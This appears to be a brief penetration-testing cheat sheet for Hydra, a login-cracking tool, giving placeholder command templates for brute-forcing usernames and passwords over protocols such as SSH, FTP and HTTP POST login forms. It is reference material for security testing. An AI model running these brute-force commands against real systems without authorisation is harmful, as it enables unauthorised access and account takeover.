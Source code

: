 # Hydra

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely.

*basic syntax*
```
hydra -l USERNAME -P /path/to/wordlist TARGETIP [-t 4] PROTOCOL
```

*cracking User & Password*
```
hydra -L path/to/userlist -P /path/to/wordlist TARGETIP [-t 4] PROTOCOL
```

*specify different port*
```
hydra -s PORT -l USERNAME -P /path/to/wordlist TARGETIP [-t 4] PROTOCOL
```

*bruteforce a POST login form*
```
hydra -l USERNAME -P path/to/wordlist TARGETIP http-post-form "/LOGINPAGE:USERFIELDNAME=^USER^&PASSWORDFIELDNAME=^PASS^:LOGINFAILEDERRORMESSAGE"
```
  - Other protocols 
```
FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, POP3, POSTGRES, RDP, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Telnet, VMware-Auth, VNC eXMP
```
